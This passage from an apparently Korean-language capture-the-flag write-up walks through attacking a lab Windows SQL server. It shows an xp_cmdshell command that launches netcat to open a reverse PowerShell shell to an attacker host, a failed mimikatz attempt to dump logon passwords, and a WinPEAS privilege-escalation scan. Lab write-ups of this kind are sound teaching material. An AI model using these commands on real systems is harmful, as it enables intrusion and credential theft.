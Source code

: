 아래는 리버스 쉘을 연결할 때의 명령어다.
``` bash
# 공격 대상 서버
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell C:\Users\Public\nc.exe 10.10.14.175 443 -e powershell

# 공격자 서버
┌──(root㉿kali)-[~user]
└─# nc -lvp 443
listening on [any] 443 ...
10.129.41.155: inverse host lookup failed: Unknown host
connect to [10.10.14.175] from (UNKNOWN) [10.129.41.155] 49682
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```


### Mimikatz
mimikatz를 통해 윈도우 계정 정보 획득을 시도해보았다. 현재 계정 `sql_svc`로 실행하였기에 아래 ERROR 문구와 같이 권한이 없다고 나온다. 역시 권한을 먼저 상승시켜야 할 것 같다.
``` bash
PS C:\Users\Public> .\mimi.exe
.\mimi.exe

  .#####.   mimikatz 2.2.0 (x86) #19041 Sep 19 2022 17:43:26
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::logonPasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)

mimikatz # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061
```

### WinPEAS
이 부분 역시 공략을 참고하였다. 문제 풀이 과정 중 아래 문제의 정답을 도저히 모르기에, 결국 참고하였다. 말 그대로라면 권한 상승이 가능한 부분을 보여준다는 신기한 도구이다.
> What script can be used in order to search possible paths to escalate privileges on Windows hosts?

해당 파일은 [Github](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)에서 다운로드 가능하며, 나의 경우 bat 형태로 받아 이전의 File Transfer 과정을 거쳐 대상 서버에 다운로드하였다.




powershell을 통해 실행하면 아래와 같이 나오며, 꽤 오래시간이 소요된다.
``` bash
PS C:\Users\Public> .\winpeas.ps1
.\winpeas.ps1
,/*,..*(((((((((((((((((((((((((((((((((,
,*/((((((((((((((((((/,  .*//((//**, .*((((((*
((((((((((((((((* *****,,,\########## .(* ,((((((
(((((((((((/*******************####### .(. ((((((
(((((((/******************/@@@@@/***\#######\((((((
,,..**********************/@@@@@@@@@/***,#####.\/(((((
, ,**********************/@@@@@+@@@/*********##((/ /((((
..(((##########*********/#@@@@@@@@@/*************,,..((((
.(((################(/******/@@@@@/****************.. /((
.((########################(/************************..*(
.((#############################(/********************.,(
.((##################################(/***************..(
```